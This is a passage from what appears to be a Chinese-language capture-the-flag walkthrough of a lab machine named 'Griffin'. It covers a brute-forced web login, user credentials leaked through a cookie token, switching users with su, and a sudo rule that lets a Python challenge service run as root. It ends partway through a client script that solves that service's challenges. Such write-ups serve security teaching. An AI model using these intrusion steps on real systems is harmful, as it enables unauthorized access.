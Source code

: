经过爆破，成功获得`brian`用户的密码。

```
[+] 🎉 破解成功！🎉
    用户名: brian
    密码: savannah
    验证码: 8upj
    尝试: 555
```

使用`brian:savannah`登录后，在Cookie中发现一个`auth_token`。经过分析，该token泄露了`meg`用户的凭据。

```
meg:lovelyfamily
```

使用`su`命令和该密码成功切换到`meg`用户。

```bash
lois@Griffin:/opt$ su meg
Password: lovelyfamily
meg@Griffin:~$ id
uid=1001(meg) gid=1001(meg) groups=1001(meg)
```

## **3.4 Sudo提权 (meg -> peter)**

检查`meg`用户的sudo权限。

```bash
meg@Griffin:~$ sudo -l
...
User meg may run the following commands on Griffin:
    (ALL) NOPASSWD: /usr/bin/python3 /root/game.py
```

`meg`可以免密以root权限执行`/root/game.py`脚本。执行该脚本后，它会在`6666`端口上启动一个监听服务。

```bash
meg@Griffin:~$ sudo /usr/bin/python3 /root/game.py
Server listening on port 6666...
```

该服务设计了三个挑战：数学计算、凯撒密码解密和MD5哈希计算（3s时间限制），所以需要编写一个客户端脚本与该服务进行交互。

```python
import socket
import re
import hashlib

s = socket.socket()
s.connect(("192.168.205.132", 6666))

data = s.recv(4096).decode()
print(data)

match = re.search(r"\((\d+) \* (\d+)\) // (\d+)", data)
a, b, c = map(int, match.groups())
ans1 = str((a * b) // c)
s.send((ans1 + "\n").encode())

data = s.recv(4096).decode()
print(data)
s.send(b"flag{fakeflag}\n")

data = s.recv(4096).decode()
print(data)
x = re.search(r"MD5\((\d+) \+ UNIX timestamp: (\d+)\)", data)
param = x.group(1) + x.group(2)
md5_hash = hashlib.md5(param.encode()).hexdigest()
```